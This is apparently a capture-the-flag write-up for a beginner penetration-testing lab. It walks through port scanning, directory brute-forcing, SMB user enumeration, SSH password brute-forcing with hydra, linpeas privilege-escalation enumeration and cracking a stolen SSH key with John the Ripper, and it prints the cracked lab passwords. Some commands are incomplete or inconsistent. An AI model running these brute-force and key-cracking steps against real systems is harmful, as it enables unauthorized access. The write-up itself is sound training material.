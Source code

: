 
## Write-up

1) First and foremost, i did a simple SYN scan on the IP `10.10.221.217`  using nmap:

```shell
nmap -sS -O 10.10.221.217
```

I got ssh and http as open ports.

2) Then i first went over to http://10.10.221.217:80 to check if the website was up and it  was. But the site was still in development. I needed to find the hidden directories.

3) I used the tool called `dirsearch` to conduct a search process,  which revealed the name of the hidden directory, it was `/development`. It was kinda like bruteforcing because i had to use wordlist like `/usr/share/wordlists/dirbuster/directory-list-1.0.txt

4) Went over to http://10.10.221.217:80/development and got:

```chrome
# Index of /development

|![[ICO]](http://10.10.221.217/icons/blank.gif)|[Name](http://10.10.221.217/development/?C=N;O=D)|[Last modified](http://10.10.221.217/development/?C=M;O=A)|[Size](http://10.10.221.217/development/?C=S;O=A)|[Description](http://10.10.221.217/development/?C=D;O=A)|
|---|---|---|---|---|
|---|   |   |   |   |
|![[PARENTDIR]](http://10.10.221.217/icons/back.gif)|[Parent Directory](http://10.10.221.217/)||-||
|![[TXT]](http://10.10.221.217/icons/text.gif)|[dev.txt](http://10.10.221.217/development/dev.txt)|2018-04-23 14:52|483||
|![[TXT]](http://10.10.221.217/icons/text.gif)|[j.txt](http://10.10.221.217/development/j.txt)|2018-04-23 13:10|235||
|---|   |   |   |   |

Apache/2.4.18 (Ubuntu) Server at 10.10.221.217 Port 80
```

5) Found `j.txt` file which looked like someone's initial letter of the name, opened it and found: 

```chrome
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K
```

6) Now time to find the username, for that, in the nmap scan i saw another service open, which was SMB.

7) Then I quickly enumerated SMB using enum4linux :

```shell
enum4linux -a 10.10.221.217
```

```enum4linux

The syntax of Enum4Linux is nice and simple: **"enum4linux [options] ip"**  

**TAG**            **FUNCTION**  

-U             get userlist  
-M             get machine list  
-N             get namelist dump (different from -U and-M)  
-S             get sharelist  
-P             get password policy information  
-G             get group and member list

-a             all of the above (full basic enumeration)  
```

8) Using this, I found out that one of the users name is jan.
9) Now for the password, we will be bruteforcing it using the popular tool `hydra`.\

```shell
hydra -l jan -P /usr/share/wordlists/rockyou.txt -t 6 ssh://10.10.221.217
```

10) With the `hydra` tool, the password was `armando`

11) Now that we have the username and the password, I without wasting any time, tried logging into ssh.

```shell
ssh jan@10.10.221.217 -p
```

12) Entered the password, and BOOM! I was in!

13) Found the other user's username as i tinkered in jan's machine. the other user's username is kay.

14) Now escalate the privileges i used a script from https://github.com/Tib3rius/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh

15) To use this script in the remote connection, i used `scp`

```shell
scp ~/Documents/Linpeas/linpeas.sh jan@10.10.175.217:/dev/shm
```

16) Then:

```shell
$ chmod +x linpeas.sh
$ ./linpeas.sh | tee linlogfile.txt
```

17) Got a whole bunch of data, but this is what caught my eye:

```shell
[+] Looking for ssl/ssh files
/home/kay/.ssh/authorized_keys                                               
/home/kay/.ssh/id_rsa
/home/kay/.ssh/id_rsa.pub
Port 22
PermitRootLogin prohibit-password
PubkeyAuthentication yes
PermitEmptyPasswords no
ChallengeResponseAuthentication no
UsePAM yes
Private SSH keys found!:
/home/kay/.ssh/id_rsa
```

18) Went over  to check the `id_rsa` file, got the key and created a file in my home to store it in `kay_id_rsa`.

19) Now i will be using John the Ripper, another popular password cracking tool, to crack the password of the user kay.

20) Now i will create a hash for `kay_id_rsa`  in `forjohn.txt` using `ss2john.py`

```shell
/usr/share/john/ssh2john.py > forjohn.txt
```

21) Then use that hash to crack the password:

```shell
john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

22) Success!! The password is : `beeswax`

23) now time to log in!

```shell
ssh -i kay_id_rsa kay@10.10.175.217
```

Success!!

24) Now that we are in, I did

```shell
$ ls
pass.bak

$ cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

I got the password!!

This was a really long challenge, and i enjoyed every bit of it.




